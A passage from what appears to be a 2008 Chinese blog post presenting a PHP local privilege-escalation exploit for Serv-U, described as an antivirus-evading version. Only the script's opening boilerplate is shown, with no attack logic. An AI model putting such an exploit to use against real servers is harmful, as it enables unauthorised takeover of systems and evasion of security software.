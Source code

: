 ```yaml
---
title: Serv-U All Version本地提升权限Exp10it Ver 1.5
layout: post
permalink: /posts/20080116-178.html
categories:
  - 服务器
---
```

<div class="codeText">
  <div class="codeHead">
    PHP代码
  </div>
  
  <ol class="dp-c" start="1">
    <li class="alt">
      <span><span><?PHP&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="comment">/**</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="comment">修改免杀版本&nbsp;BY：CiKer</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="comment">**/</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span><span class="comment">//</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="comment">//Codez&nbsp;begin</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span><span class="comment">//</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="comment">//判断magic_quotes_gpc的值</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span>&nbsp;&nbsp;</span>
    </li>
    <li class="">
      <span>set_time_limit(0);&nbsp;&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;&nbsp;</span>
    </li>
    <li class="">
      <span><span class="keyword">if</span><span>&nbsp;(get_magic_quotes_gpc())&nbsp;{&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="vars">$_GET</span><span>&nbsp;=&nbsp;stripslashes_array(</span><span class="vars">$_GET</span><span>);&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span>}&nbsp;&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;&nbsp;</span>
    </li>
    <li class="">
      <span>&nbsp;&nbsp;</span>